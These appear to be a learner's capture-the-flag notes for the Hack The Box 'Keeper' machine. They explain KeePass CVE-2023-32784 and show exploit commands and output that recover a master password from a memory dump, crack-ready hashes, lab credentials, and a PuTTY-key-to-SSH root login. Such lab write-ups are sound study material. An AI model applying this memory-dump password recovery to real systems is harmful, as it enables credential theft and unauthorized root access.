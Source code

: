 # HTB - Keeper machine

New user. Initial password set to Welcome2023!\
\----------------------------------------------------\
KeePass CVE-2023-32784: Detection of Processes Memory Dump

\- - -- - - - - - - -- - - - - -- - - - - -- - - - - -- - -

allows the recovery of the cleartext master password from a memory dump. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system.

KeePass 2.X uses a custom-developed text box for password entry, SecureTextBoxEx. The flaw exploited in this CVE is that for every character typed, a leftover string is created in memory. Because of how .NET works, it is nearly impossible to get rid of it once it gets created. For example, when â€œPasswordâ€ is typed, it will result in these leftover strings: â€¢a, â€¢â€¢s, â€¢â€¢â€¢s, â€¢â€¢â€¢â€¢w, â€¢â€¢â€¢â€¢â€¢o, â€¢â€¢â€¢â€¢â€¢â€¢r, â€¢â€¢â€¢â€¢â€¢â€¢â€¢d. The first character cannot be recovered.\


\------------------------------------------------------

**kpcli --> keepass cli**

\==========================

`python3 poc.py -d KeePassdump.dmp`

\
2023-10-07 16:04:09,530 \[.] \[main] Opened KeePassdump.dmp\
Possible password: â—â—dgrâ—d med flâ—de\


\--------------------------------------------------\
**keepass2john == ?**

`keepass2john -k KeePassdump.dmp passcodes.kdbx`

\
passcodes:$keepass$\*2\*60000\*0\*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d\*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7\*08500fa5a52622ab89b0addfedd5a05c\*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125\*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc\*1\*64\*c998c35aa687b10cbeeaa70fb58a4f5728080bf6f1473efb848aeab39bce4eef

\==========================================

`python3 keepass_dump.py -f KeePassdump.dmp`

\
\[\*] Searching for masterkey characters\
\[-] Couldn't find jump points in file. Scanning with slower method.\
\[\*] 0:        {UNKNOWN}\
\[\*] 2:        d\
\[\*] 3:        g\
\[\*] 4:        r\
\[\*] 6:        d\
\[\*] 7:        \
\[\*] 8:        m\
\[\*] 9:        e\
\[\*] 10:        d\
\[\*] 11:        \
\[\*] 12:        f\
\[\*] 13:        l\
\[\*] 15:        d\
\[\*] 16:        e\
\[\*] Extracted: {UNKNOWN}dgrd med flde

\--------------------------------

Passwd: â—â—dgrâ—d med flâ—de\


rÃ¸dgrÃ¸d med flÃ¸de

\----------passwd from the dump -----

Welcome2023!\
F4><3K0nd!\
12345

\-----------

[username: root\
passwd: F4><3K0nd!](#user-content-fn-1)[^1]

\=========================

To convert putty user key file to ssh private key

`puttygen server.ppk -O private-openssh -o id_rsa`

\--------------------------------------------

`ssh -i id_rsa root@machineip`

boom !!

[^1]: 
